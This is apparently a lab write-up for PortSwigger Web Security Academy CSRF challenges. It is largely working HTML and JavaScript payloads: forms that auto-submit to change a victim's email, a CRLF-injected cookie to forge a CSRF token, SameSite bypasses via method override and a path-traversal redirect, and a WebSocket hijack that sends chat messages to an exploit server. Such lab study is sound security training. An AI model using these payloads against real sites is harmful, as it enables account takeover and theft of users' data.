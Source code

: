 #### CSRF where token is duplicated in cookie

```html
<form method="POST" action="https://0a8700e30340c70c82f4793100a60097.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attack@attacker.com">
    <input type="hidden" name="csrf" value="fake">
</form>

<img src="https://0a8700e30340c70c82f4793100a60097.web-security-academy.net/?
search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

#### SameSite Lax bypass via method override
If the target site is enforcing SameSite=Lax for the CSRF token, you can potentially bypass it using the method override technique. This works when the application allows HTTP method override via headers or query parameters (e.g., X-HTTP-Method-Override or _method).
SameSite=Lax allows cookies to be sent in GET requests but blocks them in cross-site POST requests.

```html
<html>
  <body>
    <form action="https://0ae100d204ab4258821ac93000bc0004.web-security-academy.net/my-account/change-email" method="GET">
    <input type="hidden" name="email" value="attack@email.net">
    <input type="hidden" name="_method" value="POST">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

#### SameSite Strict bypass via client-side redirect
Let's use the client-side redirect (document.location) to trick the browser into making a same-origin request, ensuring that all cookies were sent automatically. The path traversal (postId=3/../) will allow us to bypass URL validation and modify the request to change the email address without requiring user interaction

```html
<script>
    document.location = "https://0af7007504d09417810f8ac4004b00ea.web-security-academy.net/post/comment/confirmation?postId=3/../my-account/change-email?email=nonuser%40user.net%26submit=1";
</script>
```

#### SameSite Strict bypass via sibling domain
To solve this first I went and solve WebSockets path as suggested and used a payload from there to see what data could be retrieved abusing websockets:

```html
<script>
    var ws = new WebSocket('wss://0a0f000903ba45ba80500daf008600d5.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://exploit-0ab00018030445c580950c3b01ed00d4.exploit-server.net/exploit?message=' + btoa(event.data));
    };
</script>
```

